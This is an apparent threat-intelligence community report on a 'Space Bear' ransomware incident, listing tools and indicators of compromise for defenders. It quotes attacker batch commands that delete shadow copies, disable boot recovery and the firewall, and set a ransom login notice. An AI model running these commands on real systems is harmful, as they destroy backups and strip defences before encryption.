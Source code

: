 # Community Report 008 - Space Bear September 2025 

### Contributor Details
```
- Real Name: Ben Folland
- Online Handle: @polygonben
- Employer: Huntress
```
---
### Adversary
```
- Named adversary: Space Bear
```
---
### Incident Details
```
- Time of Incident: September 2025
- Victim Sector: N/A
- Victim Country: USA
- Victom Size: N/A
```
---
### Observed Tools
 
| Discovery | RMM Tools | Defense Evasion | Credential Theft | OffSec | Networking | LOLBAS | Exfiltration |
|---|---|---|---|---|---|---|---|
|  |  | Defender Control |  |  |  | bcedit |  |
|  |  |  |  |  |  | fsutil |  |
|  |  |  |  |  |  | netsh |  |
|  |  |  |  |  |  | wmic |  |
|  |  |  |  |  |  | VmConnect  |  |
|  |  |  |  |  |  | vssadmin |  |

---
### Indicators of Compromise (IOCs)
```
Process Chain / Command Lines:

- C:\driver\backup.bat
  - wmic SHADOWCOPY DELETE
  - vssadmin  Delete Shadows /All /Quiet
  - bcdedit  /set {default} bootstatuspolicy ignoreallfailures
 

- C:\driver\SCdel.bat
  - vssadmin delete shadows /all
  - netsh advfirewall set allprofiles state off

- C:\driver\LockScreen.bat
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticecaption /t REG_SZ /d "ATTENTION!!! Read Before Login" /f
  - REG ADD "HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Policies\System" /v legalnoticetext /t REG_SZ /d "Your system has been hacked !!! Your system files are encrypted and uploaded to our servers. An attempt to recover files on your own will result in their complete loss. You urgently need to notify the management of your company about the incident. Mail for communication: [REDACTED] ONLY WE have the recovery keys, before agreeing on the cost from the data recovery companies, ask OUR price" /f

Staging:
- C:\driver\

Ransomware Binary:
- C:\driver\mkp_visual.exe
```
---
| Date Published | Report |
|---|---|
| N/A | N/A |
